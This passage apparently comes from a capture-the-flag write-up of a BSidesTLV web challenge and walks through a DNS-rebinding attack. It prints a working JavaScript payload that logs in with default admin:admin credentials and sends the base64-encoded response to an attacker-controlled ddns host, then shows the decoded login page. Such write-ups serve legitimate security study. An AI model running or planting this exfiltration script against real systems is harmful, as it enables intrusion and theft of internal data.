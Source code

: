 You can see that it's a simple login form. What's interesting is the default credentials (`admin:admin`) hidden in the HTML comment.

Let's repeat the steps again, making the following changes to `index.html`, to simulate logging in.

<div class="filename"><span>index.html</span></div>

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://h4ck3rman.ddns.net:8080/login");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://h4ck3rboi.ddns.net:8888/hello.txt?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send("username=admin&password=admin&submit=");
}, 120000);
</script>
```

Verify the two requests are coming in through `8080/tcp`.

![a6ff8a31.png](/assets/images/posts/bsidestlv-web/a6ff8a31.png)

Change the IP address mapped to `h4ck3rman` to `192.168.20.100` at once. Two minutes later, `h4ck3rboi` listening at `8888/tcp` receives the XHR response.

![7bf1ec3d.png](/assets/images/posts/bsidestlv-web/7bf1ec3d.png)

The response (flag) after decoding is as follows.

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login page</title>
</head>
<body>
    <form method="post">
        <div class="form-group">
            <label for="url" class="col-sm-3 control-label">Username</label>
            <div class="col-sm-9">
                <input type="text" id="url" name='username' placeholder="Username">
            </div>
        </div>

        <div class="form-group">
            <label for="password" class="col-sm-3 control-label">Password</label>
            <div class="col-sm-9">
                <input type="password" id="password" name='password' placeholder="Password">
            </div>
        </div>

        <div class="form-group">
            <div class="col-sm-9 col-sm-offset-3">
                <!--Default credentials: admin/admin-->
                <button type="submit" name='submit' class="btn btn-primary btn-block">Login!</button>
            </div>
        </div>
    </center>
    <div class="form-group">

```